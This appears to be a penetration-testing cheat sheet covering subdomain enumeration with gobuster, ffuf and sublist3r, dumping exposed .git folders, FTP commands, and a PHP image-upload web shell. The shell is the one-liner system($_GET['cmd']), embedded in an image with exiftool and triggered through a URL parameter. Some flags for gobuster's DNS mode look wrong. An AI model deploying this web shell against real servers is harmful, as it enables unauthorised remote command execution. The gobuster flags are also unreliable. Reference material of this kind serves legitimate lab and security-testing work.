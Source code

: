#### Subdomain Enumeration

##### gobuster
- Scan for subdomains `gobuster dns -d DOMAIN -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 200`
    - To filter results by status code `-s 200,204,301,302,307,401,403`
    - To filter results by size `-l SIZE`
    - To filter results by words `-w WORDS`
    - To filter results by lines `-c LINES`
    - To filter results by regex `-r REGEX`

##### ffuf
- Scan for subdomains `ffuf -u http://SUBDOMAIN.DOMAIN -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 200 -H "Host: FUZZ.DOMAIN"`
    - To filter results by status code `-mc 200,204,301,302,307,401,403`
    - To filter results by size `-fs SIZE`
    - To filter results by words `-fw WORDS`
    - To filter results by lines `-fl LINES`
    - To filter results by regex `-mr REGEX`

##### sublist3r
- Scan for subdomains `python3 sublist3r.py -d DOMAIN -o subdomains.txt`
    - To use multiple threads `-t THREADS`
    - To use specific engines `-e google,bing,yahoo,ask,baidu,dogpile`
    - To use brute force `-b`
    - To use a custom wordlist for brute force `-w /path/to/wordlist`

#### Exposed Git Repositories
- git-dumper `git_dumper.py URL [OUTPUT_DIR]`
    - Example: `python git_dumper.py http://TARGET_IP[:PORT]/.git/ dump`

#### PHP

##### Image Upload Vulnerability
- Add a PHP payload to an image file `<?php system($_GET['cmd']);?>`
- Add `pre` tags to the payload to avoid corruption `<?php echo '<pre>'; system($_GET['cmd']); echo '</pre>'; ?>` 

- ¿¿¿??? Use `exiftool` to add the PHP payload to the image file without corrupting it:
    - `exiftool -Comment='<?php system($_GET["cmd"]);?>' image.jpg`

- Upload the image file to the web server
- Access the uploaded image file and execute commands `http://TARGET_IP[:PORT]/path/to/uploaded/image.php?cmd=COMMAND`

#### Actuator
This is a Spring Boot feature that provides endpoints for monitoring and managing applications.

### FTP

- Connect to FTP server `ftp TARGET_IP[:PORT]`
    - To login as anonymous user `anonymous`
    - To login with a username and password `USER USERNAME` then `PASS PASSWORD`
    - To list files and directories `ls` or `dir`
    - To change directory `cd DIRECTORY`
    - To download a file `get FILENAME`
    - To upload a file `put FILENAME`
    - To download multiple files `mget FILE1 FILE2 ...`
    - To upload multiple files `mput FILE1 FILE2 ...`
    - To exit the FTP session `bye` or `exit`
